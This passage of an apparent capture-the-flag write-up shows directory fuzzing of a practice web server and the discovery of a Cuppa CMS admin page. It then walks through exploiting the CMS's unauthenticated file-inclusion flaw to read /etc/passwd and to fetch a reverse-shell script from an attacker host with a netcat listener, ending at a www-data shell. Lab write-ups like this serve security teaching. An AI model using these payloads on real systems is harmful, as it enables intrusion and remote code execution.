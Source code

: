 ## Directory /45kra24zxs28v3yd
It is indeed! It's Miles' personal page. Nothing interesting on this page so I decide to fuzz it. This turns up a page called "administrator"
```
        /'___\  /'___\           /''___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.2.177/45kra24zxs28v3yd/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Extensions       : .html .php .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

administrator           [Status: 301, Size: 335, Words: 20, Lines: 10, Duration: 157ms]
index.html              [Status: 200, Size: 418, Words: 45, Lines: 16, Duration: 158ms]
:: Progress: [120000/120000] :: Job [1/1] :: 251 req/sec :: Duration: [0:08:04] :: Errors: 8 ::
```
/Administrator is a login page for "Cuppa CMS". 

I try to log in to this with the 2 sets of creds I found. Neither work. Neither does basic SQLi. Inspecting the page source reveals a commented line of html that looks like a password reset form. I intercept the page response in burp and uncomment the line, and indeed this does load a password reset function. This prompts me an email address, I have access to Miles' email account, maybe I can reset his password? Interestingly, I can't actually find his exact email address in Squirrelmail. I take a couple guesses, but I don't manage to get an email in the inbox.

I do a `searchsploit` for "Cuppa CMS" which brings back one lone result, for Local & Remote File Inclusion. Reading the exploit tells me that the url `http://{TARGET IP}/{CUPPA DIRECTORY}/alerts/alertConfigField.php?urlConfig=` is vulnerable to LFI/RFI. 

I give it a try with `http://$IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`, and to my great joy, this just works! No authentication needed.

I test the RFI by setting up a python server on my attack box with `python3 -m http.server 80` and using the payload `urlConfig=http://{MY IP}/` and sure enough I get a hit. Now I just need to host a reverse shell and get the site to execute it. I grab the classic one that comes on Kali and in SecLists, modify the IP and port, and put it in my server directory. I start up a netcat listener `nc -lvnp 9001` and use the RFI payload `urlConfig=http://{MY IP}/shell.php` and sure enough, I get a shell as www-data! Now to escalate privileges.
